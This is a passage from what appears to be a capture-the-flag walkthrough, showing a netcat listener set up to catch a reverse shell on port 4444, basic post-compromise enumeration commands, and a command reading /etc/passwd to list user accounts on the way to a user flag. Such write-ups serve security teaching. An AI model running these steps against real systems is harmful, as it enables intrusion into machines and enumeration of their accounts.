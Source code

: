 ```bash
# Reverse shell payload
nc -lvnp 4444
```

![Reverse Shell Connection](picture13.png)

### Initial Shell

```bash
whoami
id
pwd
ls -la
```

![Initial Shell Commands](picture14.png)

## 👤 User Flag

### User Enumeration

Let's explore the system and find user accounts:

```bash
cat /etc/passwd | grep -E "sh$|bash$"
ls /home/
```
